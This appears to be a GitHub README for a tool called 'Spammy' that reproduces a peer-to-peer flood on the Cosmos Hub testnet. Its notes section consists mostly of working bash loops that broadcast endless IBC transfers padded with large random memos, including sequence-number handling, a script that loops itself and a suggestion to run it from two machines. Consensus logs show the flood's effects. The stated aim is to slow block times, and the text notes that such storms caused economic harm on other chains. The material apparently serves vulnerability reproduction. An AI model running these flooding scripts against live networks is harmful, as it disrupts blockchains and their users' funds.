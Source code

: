 # Spammy

## Tooling and documentation for the reproduction of:

* banana king
* client update spam
* banana client

In an effort to reporoduce a p2p storm on the cosmos hub testnet. 


### it has been reproduced

Attack stopped about 6:50pm.  These are its echoes and echoes are what a p2p flood is. 

```log
7:05PM INF Peer ProposalBlockPartSetHeader mismatch, sleeping blockPartSetHeader={"hash":"15D4BC6DF45AB6A42002DE7F77C492D98BA9FC4D17C1A0FD8A544AA365D44489","total":1} height=3393430 module=consensus peer={"Data":{},"Logger":{}} peerBlockPartSetHeader={"hash":"AE74171AA9816668A59C8B0B5CE1CA337A49FA0420EAD47A29FA61D04162ACFD","total":336}
7:05PM INF Peer ProposalBlockPartSetHeader mismatch, sleeping blockPartSetHeader={"hash":"15D4BC6DF45AB6A42002DE7F77C492D98BA9FC4D17C1A0FD8A544AA365D44489","total":1} height=3393430 module=consensus peer={"Data":{},"Logger":{}} peerBlockPartSetHeader={"hash":"AE74171AA9816668A59C8B0B5CE1CA337A49FA0420EAD47A29FA61D04162ACFD","total":336}
7:05PM INF Peer ProposalBlockPartSetHeader mismatch, sleeping blockPartSetHeader={"hash":"15D4BC6DF45AB6A42002DE7F77C492D98BA9FC4D17C1A0FD8A544AA365D44489","total":1} height=3393430 module=consensus peer={"Data":{},"Logger":{}} peerBlockPartSetHeader={"hash":"AE74171AA9816668A59C8B0B5CE1CA337A49FA0420EAD47A29FA61D04162ACFD","total":336}
7:05PM INF Peer ProposalBlockPartSetHeader mismatch, sleeping blockPartSetHeader={"hash":"15D4BC6DF45AB6A42002DE7F77C492D98BA9FC4D17C1A0FD8A544AA365D44489","total":1} height=3393430 module=consensus peer={"Data":{},"Logger":{}} peerBlockPartSetHeader={"hash":"AE74171AA9816668A59C8B0B5CE1CA337A49FA0420EAD47A29FA61D04162ACFD","total":336}
7:05PM INF Peer ProposalBlockPartSetHeader mismatch, sleeping blockPartSetHeader={"hash":"15D4BC6DF45AB6A42002DE7F77C492D98BA9FC4D17C1A0FD8A544AA365D44489","total":1} height=3393430 module=consensus peer={"Data":{},"Logger":{}} peerBlockPartSetHeader={"hash":"AE74171AA9816668A59C8B0B5CE1CA337A49FA0420EAD47A29FA61D04162ACFD","total":336}
```

```log
7:10PM INF Peer ProposalBlockPartSetHeader mismatch, sleeping blockPartSetHeader={"hash":"B863A48E286629C0D6625FAB8528B5E6D22B2AEE1009FF8BFB366C74C4A02C3F","total":1} height=3393463 module=consensus peer={"Data":{},"Logger":{}} peerBlockPartSetHeader={"hash":"11645810029DC234A9CAFDCF7AF9968AFD8E9E7455E05CABC8B9A5D525B058C5","total":336}
7:10PM INF Peer ProposalBlockPartSetHeader mismatch, sleeping blockPartSetHeader={"hash":"B863A48E286629C0D6625FAB8528B5E6D22B2AEE1009FF8BFB366C74C4A02C3F","total":1} height=3393463 module=consensus peer={"Data":{},"Logger":{}} peerBlockPartSetHeader={"hash":"11645810029DC234A9CAFDCF7AF9968AFD8E9E7455E05CABC8B9A5D525B058C5","total":336}
7:10PM INF Peer ProposalBlockPartSetHeader mismatch, sleeping blockPartSetHeader={"hash":"B863A48E286629C0D6625FAB8528B5E6D22B2AEE1009FF8BFB366C74C4A02C3F","total":1} height=3393463 module=consensus peer={"Data":{},"Logger":{}} peerBlockPartSetHeader={"hash":"11645810029DC234A9CAFDCF7AF9968AFD8E9E7455E05CABC8B9A5D525B058C5","total":336}
7:10PM INF Peer ProposalBlockPartSetHeader mismatch, sleeping blockPartSetHeader={"hash":"B863A48E286629C0D6625FAB8528B5E6D22B2AEE1009FF8BFB366C74C4A02C3F","total":1} height=3393463 module=consensus peer={"Data":{},"Logger":{}} peerBlockPartSetHeader={"hash":"11645810029DC234A9CAFDCF7AF9968AFD8E9E7455E05CABC8B9A5D525B058C5","total":336}
7:10PM INF Peer ProposalBlockPartSetHeader mismatch, sleeping blockPartSetHeader={"hash":"B863A48E286629C0D6625FAB8528B5E6D22B2AEE1009FF8BFB366C74C4A02C3F","total":1} height=3393463 module=consensus peer={"Data":{},"Logger":{}} peerBlockPartSetHeader={"hash":"11645810029DC234A9CAFDCF7AF9968AFD8E9E7455E05CABC8B9A5D525B058C5","total":336}
```

these are from the hub testnet today, 9/27/2023



## Links to explorer

* **client updates**
 * https://ping.pub/cosmos/tx/2BA652123FFD549CCFA672BDD596801DABAD680029EA817369814DE5750DB4AB

* **testing wallet - mainnet**
  * https://www.mintscan.io/cosmos/address/cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq
  * txns were made so that they fail intentionally.

* **testing wallet - testnet**
  * will vary between failed transactions and successes
  * goal is to increase block time on the testnet
  * https://explorer.rs-testnet.polypore.xyz/ 
  


## Target

We're looking to transmit a "banana client".  This transaction will 


## P2P storms have occured on the following networks:

* Sentinel
* Luna Classic
  * Led to economic harm 
* Stride


## Notes

Change the maximum request body size in config.toml

```toml
# Maximum size of request body, in bytes
max_body_bytes = 100000000
```

Generate a random string (hex output)

```bash
openssl rand -hex 10000000
```

Sign a transcation


Broadcast a transaction (oddly cli won't broadcast, we'll need to chain it)
```bash
gaiad tx broadcast bananasigned1.json --home ~/.gaia-rs
```

Abuse the ibc memo field
```bash
gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 10000) --chain-id provider --gas auto --yes
 ```

 Abuse the ibc memo field fast
 ```bash
 for (( ; ; )); do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 10000) --chain-id provider --gas auto --yes ; done
 ```

 Abuse the ibc memo field fast and avoid problems with the sequence number
 ```bash
 for i in {2000..3000}; do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 50000) --chain-id provider --gas auto --yes --sequence $i ; done
 ```

 Abuse the ibc memo field fast and avoid problems with the sequence number, wait a tenth of a second between runs
 ```bash
for i in {3045..5000}; do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 50000) --chain-id provider --gas auto --yes --sequence $i ; sleep .1 ; done
```

Abuse ibc memos using the account sequence to start


  Loop the loop script
```bash
while true ; do bash attack2.bash ; done
```

```bash
set -e

SEQUENCE=$(curl http://127.0.0.1:1317/cosmos/auth/v1beta1/accounts/cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq | jq --raw-output ' .account.sequence ')

for i in $( eval echo {"$SEQUENCE"..10000000} )
         do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 50000) --chain-id provider --gas auto --yes --sequence $i
         done
```
but do it from two machines

```bash
set -e

SEQUENCE=$(curl http://127.0.0.1:1317/cosmos/auth/v1beta1/accounts/cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq | jq --raw-output ' .account.sequence ')

for i in $( eval echo {"$SEQUENCE"..10000000} )
         do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 50000) --chain-id provider --gas auto --yes --sequence $i
         done
```






 Hub testnet blcok range 3881725 to 3881733



## How do I know if there is a p2p flood?

```log
7:05PM INF Peer ProposalBlockPartSetHeader mismatch, sleeping blockPartSetHeader={"hash":"15D4BC6DF45AB6A42002DE7F77C492D98BA9FC4D17C1A0FD8A544AA365D44489","total":1} height=3393430 module=consensus peer={"Data":{},"Logger":{}} peerBlockPartSetHeader={"hash":"AE74171AA9816668A59C8B0B5CE1CA337A49FA0420EAD47A29FA61D04162ACFD","total":336}
7:05PM INF Peer ProposalBlockPartSetHeader mismatch, sleeping blockPartSetHeader={"hash":"15D4BC6DF45AB6A42002DE7F77C492D98BA9FC4D17C1A0FD8A544AA365D44489","total":1} height=3393430 module=consensus peer={"Data":{},"Logger":{}} peerBlockPartSetHeader={"hash":"AE74171AA9816668A59C8B0B5CE1CA337A49FA0420EAD47A29FA61D04162ACFD","total":336}
7:05PM INF Peer ProposalBlockPartSetHeader mismatch, sleeping blockPartSetHeader={"hash":"15D4BC6DF45AB6A42002DE7F77C492D98BA9FC4D17C1A0FD8A544AA365D44489","total":1} height=3393430 module=consensus peer={"Data":{},"Logger":{}} peerBlockPartSetHeader={"hash":"AE74171AA9816668A59C8B0B5CE1CA337A49FA0420EAD47A29FA61D04162ACFD","total":336}
7:05PM INF Peer ProposalBlockPartSetHeader mismatch, sleeping blockPartSetHeader={"hash":"15D4BC6DF45AB6A42002DE7F77C492D98BA9FC4D17C1A0FD8A544AA365D44489","total":1} height=3393430 module=consensus peer={"Data":{},"Logger":{}} peerBlockPartSetHeader={"hash":"AE74171AA9816668A59C8B0B5CE1CA337A49FA0420EAD47A29FA61D04162ACFD","total":336}
7:05PM INF Peer ProposalBlockPartSetHeader mismatch, sleeping blockPartSetHeader={"hash":"15D4BC6DF45AB6A42002DE7F77C492D98BA9FC4D17C1A0FD8A544AA365D44489","total":1} height=3393430 module=consensus peer={"Data":{},"Logger":{}} peerBlockPartSetHeader={"hash":"AE74171AA9816668A59C8B0B5CE1CA337A49FA0420EAD47A29FA61D04162ACFD","total":336}
```

